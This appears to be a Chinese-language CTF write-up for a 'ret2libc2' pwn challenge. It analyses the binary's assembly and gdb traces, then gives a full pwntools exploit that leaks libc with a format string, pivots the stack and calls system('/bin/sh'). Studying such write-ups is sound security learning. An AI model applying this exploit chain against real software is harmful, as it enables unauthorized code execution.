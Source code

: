 ### func汇编分析
![98a456adebe8adb789ba9ca00f26a510](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/98a456adebe8adb789ba9ca00f26a510.png)
1.从汇编中可以看到更多信息.
2.首先是在leave ret 之前，lea rax [rbp+buf]. 实际上是将我们的输入的起始位置的内容交给了rax.而且可以注意到，无论是printf还是两个puts，都是通过rax来设置rdi。那么也就说我们的输入，可以给printf传递参数，也就是可以实现我们的格式化字符串漏洞.
3.同时，leave ret 留下了栈迁移的隐患。

### gdb调试分析
![65dadea8bb2e5a40f2a81d8411fea262.png](https://cdn.jsdelivr.net/gh/peruy/mypic@main/img/65dadea8bb2e5a40f2a81d8411fea262_720.png)
1.通过gdb动调寻找栈上可以泄露出libc的函数.将func的返回地址覆盖为0x401227，直接将printf的rdi修改成我们的输入，查看这一帧栈帧，在0x15的位置看到了__libc_start_main,计算偏移为21+6=27.
2.同时，在第一次溢出时，需要覆盖rbp为有效地址。否则，这次func执行最后，会崩溃掉。

## 构造思路
1.首先确定泄露libc的手段，格式化字符串.并且第一次溢出时需要栈迁移.在这里补充一点，除了使用格式化字符串以外，还有一种泄露的手法.观察func函数，0x401223处，会将rbp-0x10 的内容作为参数赋给rax，再下方又被赋给了rdi.那么如果[rbp-0x10]是某个got表，那就可以把got表的内容打印出来。所以我们只需要把某个got-0x10交给rbp，就可以完成第一次的栈迁移和libc的泄露。
2.因为程序本身是没有提供pop_rdi,但是题目给了libc.so.6文件，在泄露libc基址之后，利用libc.so.6中的pop rdi;ret，一样可以控制rdi寄存器。现在我们已经有了ret2libc的全部条件。只需要栈迁移的一个合适的地址，完成rop。
3.选择bss段的高地址完成这段rop。如果是采用第二种方法泄露libc的话，需要再栈迁移一次，而且为了保证程序的顺利执行，第二次溢出，需要注意维护got表的内容尤其是read，否则第三次溢出就会出错。

## exp

### 格式化字符串
```python 
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
io=process("./ret2libc2")
#libc=ELF("libc.so.6")
#io=remote("node2.anna.nssctf.cn",28626)
elf=ELF("./ret2libc2")
bss=0x404060
ret=0x4011fa
gdb.attach(io)

payload1=b'%27$p'.ljust(8,b'a')
payload1=payload1.ljust(0x30,b'a')+p64(bss+0x900)+p64(0x401227)
io.sendafter(b'show your magic\n',payload1)
start_addr=int(io.recv(14),16)-128
libc_base=start_addr-libc.symbols['__libc_start_main']
log.success("start_addr-{}".format(hex(start_addr)))
pop_rdi=libc_base+0x2a3e5
system=libc_base+libc.symbols['system']
binsh=libc_base+next(libc.search(b'/bin/sh'))
one=libc_base+0xebc85

payload2=b'a'*(0x38)+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system)
io.sendafter(b'show your magic\n',payload2)
io.interactive()
```
